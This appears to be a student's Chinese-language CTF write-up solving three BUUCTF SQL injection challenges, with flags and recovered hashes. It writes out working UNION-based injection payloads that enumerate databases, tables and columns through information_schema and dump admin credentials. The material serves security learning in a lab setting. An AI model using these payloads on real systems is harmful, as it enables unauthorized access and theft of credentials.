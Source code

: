 # WEB第四节课

[TOC]

----

> 20233001306 张博翔 BX

## [极客大挑战 2019]EasySQL

![image-20240815100640223](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815100640223-1723691581908-8.png)

由于根据题目名称可以知道，是sql注入题，我们这里尝试使用`1'`测试回显情况，发现可以注入

1. `?username=1&password=1' order by 6%23`
2. `?username=1&password=1' order by 3%23`
3. `?username=1&password=1' union select 1,2,3%23`

最后得到--==flag==

![image-20240815101232079](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815101232079-1723691581908-7.png)





----



## BUU SQL COURSE 1

首先我们进入页面发现有==热点==和==登录== 两个入口，我简单的看了看热点中的三个页面，发现没什么，由于是sql题我想着会在登录口提供注入，测试了半天发现没什么响应，于是我回到热点页面寻找一些提示

正常手段没有什么发现，于是我选择抓包尝试

![image-20240815102913873](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815102913873-1723691530771-1.png)

发现这里可能是一个注入口，于是我开始尝试

测试了几个数据发现是有效注入，这里我才用`sqlmap`

![image-20240815105033629](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815105033629-1723691530772-2.png)

发现了登录密码，我这里登录一下试试

759acef6268110172281c9824641399e

得到flag

```
flag{62e98eae-c31c-422a-b0ba-469e84ef2717}
```



### 网上Wp学习

```
暴库：（information_schema,ctftraining,mysql,performance_schema,test,news）
?id=-1 UNION SELECT 1,group_concat(schema_name) from information_schema.schemata

暴表：（admin,contents）
?id=-1 UNION SELECT 1,group_concat(table_name) from information_schema.tables where table_schema="news"

暴字段：（id,username,password）
?id=-1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name="admin"

暴密码：(983a3f6bc1f3709f9f8997f887ef9803)
?id=-1 UNION SELECT 1,concat(username,0x3a,password) from admin
```

----

## [极客大挑战 2019]LoveSQL

> 这个好像是第一题的升级。。。。
>
> 这个题说实话，做到一半的时候没有思路，上网查了查一些思路

![image-20240815110422925](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815110422925-1723691555801-5.png)

```
cc906f97ec3f2a44c4263178c47b9f1d
```

1. `1' order by 4#`到四的时候报错，说明字段数是3
2. `1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#`
3. `1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='l0ve1ysq1'#`

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="UTF-8">
	<title>check</title>
</head>
<div style="position: absolute;bottom: 0;width: 99%;"><p align="center" style="font:italic 15px Georgia,serif;color:white;"> Syclover @ cl4y</p></div>

<body background='./image/background.jpg' style='background-repeat:no-repeat ;background-size:100% 100%; background-attachment: fixed;'>
					<br><br><br>
<h1 style='font-family:verdana;color:red;text-align:center;'>Login Success!</h1><br><br><br>
					</br>
    <p style='font-family:arial;color:#ffffff;font-size:30px;left:650px;position:absolute;'>Hello cl4y,glzjin,Z4cHAr7zCr,0xC4m3l,Ayrain,Akko,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,leixiao,flag！</p></br></br>
<p style='font-family:arial;color:#ffffff;font-size:30px;left:650px;position:absolute;'>Your password is 'wo_tai_nan_le,glzjin_wants_a_girlfriend,biao_ge_dddd_hm,linux_chuang_shi_ren,a_rua_rain,yan_shi_fu_de_mao_bo_he,cl4y,di_2_kuai_fu_ji,di_3_kuai_fu_ji,di_4_kuai_fu_ji,di_5_kuai_fu_ji,di_6_kuai_fu_ji,di_7_kuai_fu_ji,di_8_kuai_fu_ji,Syc_san_da_hacker,flag{c3f12931-47d4-49e7-86d0-39974f48d3a5}'</p>
</body>
</html>
```

得到flag

```
flag{c3f12931-47d4-49e7-86d0-39974f48d3a5}
```

